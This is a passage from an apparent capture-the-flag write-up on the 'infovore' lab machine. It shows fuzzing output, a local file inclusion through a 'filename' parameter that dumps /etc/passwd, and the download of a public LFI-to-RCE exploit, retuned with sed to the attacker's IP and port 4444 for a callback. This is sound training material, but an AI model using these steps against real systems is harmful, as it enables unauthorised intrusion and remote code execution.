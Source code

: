 ~~~

000025370:   200        7 L      9 W      80 Ch       "filename"                                          

Total time: 319.7642
Processed Requests: 220560
Filtered Requests: 220559
Requests/sec.: 689.7580
~~~

Indeed, the `index.php` page is accepting the `filename` parameter:

~~~
kali@kali:/data/infovore_1/files$ curl -s http://infovore.box?filename=/etc/passwd
<html>
<title>Include me ...</title>
<body>
<p>
<pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
</pre></p>
</body>
</html>
~~~

However, it seems that we can only provide `/etc/passwd` as no other file can be read.

## LFI / phpinfo

Searching for "LFI" and "phpinfo" on the Internet led to this interesting resource: https://github.com/M4LV0/LFI-phpinfo-RCE. Let's download the exploit and tune it:

~~~
$ wget https://raw.githubusercontent.com/M4LV0/LFI-phpinfo-RCE/master/exploit.py
$ sed -i "s/127.0.0.1/172.16.222.128/" exploit.py
$ sed -i "s/3333/4444/" exploit.py
$ sed -i "s/phpinfo.php/info.php/" exploit.py 
$ sed -i "s/?lfi=/?filename=/" exploit.py
~~~
